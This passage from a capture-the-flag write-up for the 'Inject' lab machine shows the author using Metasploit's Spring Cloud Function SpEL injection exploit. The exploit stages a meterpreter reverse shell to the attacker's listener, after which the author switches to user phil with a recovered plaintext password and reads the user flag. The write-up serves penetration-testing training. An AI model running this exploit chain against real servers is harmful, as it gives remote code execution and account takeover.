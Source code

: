 ```shell


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

```



----


## Foothold

- Running the exploit, I managed to get a shell
```shell
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set rhost inject.htb
rhost => inject.htb
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.11.204:57480) at 2023-04-14 11:27:15 -0400

meterpreter > 

```
- I then used the details for phil to login so we can get the flag for user 
```shell
[-] core_channel_open: Operation failed: 1
meterpreter > shell
Process 98895 created.
Channel 2 created.
su phil
Password: DocPhillovestoInject123
ls
linpeas.sh
rs.yml
user.txt

cat user.txt    
fd58582c63be188c81736f39e5169445


```
